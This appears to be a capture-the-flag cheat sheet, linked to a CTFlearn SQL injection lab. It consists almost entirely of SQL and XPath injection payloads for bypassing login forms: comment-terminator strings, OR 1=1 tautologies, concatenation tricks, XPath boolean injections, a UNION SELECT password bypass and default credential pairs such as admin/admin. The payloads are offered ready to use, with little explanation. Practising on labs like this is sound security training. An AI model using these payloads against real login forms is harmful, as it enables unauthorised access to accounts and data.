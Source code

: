 ### Helpful links:
https://ctflearn.com/lab/sql-injection-part-1




### COMMANDS:

```sql
admin'--
admin' /*
admin';
ad'||'min'; // Concatenation operator : Concatenates and then terminates
1' OR 1=1--

Check for * in admin passwd
```
```sql
" or 1=1 -- 
" OR 1=1 --
```

#### Sometimes some particular special characters are filtered and '*' or '&' may work so try every characters once as a test.

```sql
' or 1 or '
' or 1=1 --
' OR 1=1 --
' or '1' = '1
' OR "tr"||"ue" --
' OR 2^3 --
admin admin
user user
```

## Xpath injection
```python
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

## Bypass Login
```py
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#
' UNION SELECT '123' AS password#
```
